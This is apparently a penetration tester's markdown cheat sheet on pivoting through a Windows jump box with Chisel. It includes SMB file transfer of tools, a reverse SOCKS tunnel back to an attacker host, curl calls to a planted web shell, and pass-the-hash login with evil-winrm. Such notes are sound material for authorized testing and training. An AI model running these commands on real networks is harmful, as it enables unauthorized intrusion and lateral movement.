

# Port Forwarding with Chisel

## Config

Edit `/etc/proxychains4.conf` file

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```

Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86

```cmd
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64

```cmd
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```

## Kali <==> Windows JumpBox <==> Target

Kali - server

```bash
/opt/chisel/chisel server -p 8000 --reverse
```

Windows JumpBox - client

```cmd
.\chisel.exe client <Kali IP>:8000 R:socks
```

## Accessing

Access with nmap

- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans

```bash
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with curl

```bash
proxychains curl http://<Target IP>/shell.asp?cmd=whoami
```

or

```bash
proxychains curl --get \
  --data-urlencode 'cmd=whoami /priv' \
  http://<Target IP>/shell.asp
```

Access with mysql

```bash
proxychains mysql -h <Target IP> -u <user> -p
```

Access with crackmapexec

```bash
proxychains crackmapexec smb <Target IP> -u '<user>' -p '<pwd>'
```

Access with RDP

```bash
proxychains xfreerdp /v:<Target IP> /u:'<user>' /p:'<pwd>'
```

Access with ssh

```bash
proxychains ssh <user>@<Target IP>
```

Access with Evil-WimRM

```bash
proxychains evil-winrm -u '<domain>\<user>' -H '<NTLMHASH>' -i <Target IP>
```

Access with Firefox (using FoxyProxy)



Access with dbeaver


## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)

## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
- [Double Pivot using Chisel](https://blog.0xzon.dev/2023-05-03-Double-Pivot-Using-Chisel/)
